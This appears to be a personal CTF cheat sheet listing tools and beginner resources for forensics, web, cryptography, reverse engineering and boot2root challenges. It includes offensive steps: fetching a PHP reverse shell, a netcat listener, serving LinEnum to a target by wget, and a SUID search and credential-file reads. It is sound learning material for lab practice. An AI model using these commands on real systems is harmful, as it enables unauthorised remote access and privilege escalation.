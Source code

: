 # CTF TOOLS GUIDE

beginner: [CTFtime.org](http://CTFtime.org), ctflearn, pwntilldawn

discord:hacker101 & htb

`git remote add origin <https://github.com/sovayle/`>

# Forensics

software: HxD, Autopsy, hexeditor(linux)

# Web Exploitation

gobuster
Catch http requests from a server: requestbin.com

# Cryptography

websites: [hashes.com](http://hashes.com), crackstation, cyberchef
hashes.com hash identifier

python3 hash identifier
`wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py`

`python3 hash-id.py`

hash-identifier 7bf6d9bb82bed1302f331fc6b816aada

gpg --help
gpg --import tryhackme.key
gpg message.gpg
cat message


# Reverse Engineering

![RE example.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/720f4b35-149f-42ac-924a-4db489bc5b3a/RE_example.png)

![RE example2.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/56c5f5e9-f997-4663-9b5d-e0d5b96a9d3b/RE_example2.png)

![RE example3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6392dd19-8341-4097-880a-f4a2a8d9c73c/RE_example3.png)

wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 1234
upload reverse shell script
profit

wget hash identifier website

Remmina for RDP


# Binary Exploitation

# OSINT

# Steganography

# boot2root
exploitdb scripts
gtfobins

sudo -l

priviledge escalation
Linenum
**python3 -m http.server 8000**
**"wget"** on the target machine, and your local IP, you can grab the file from your local machine [2].

wget 10.4.20.232:8000/LinEnum.sh

Then make the file executable using the command **"chmod +x FILENAME.sh"**.

/etc/passwd 
/etc/shells
/etc/crontab

finding SUID binaries:
**find / -perm -u=s -type f 2>/dev/null**


# Programming (Development challenges)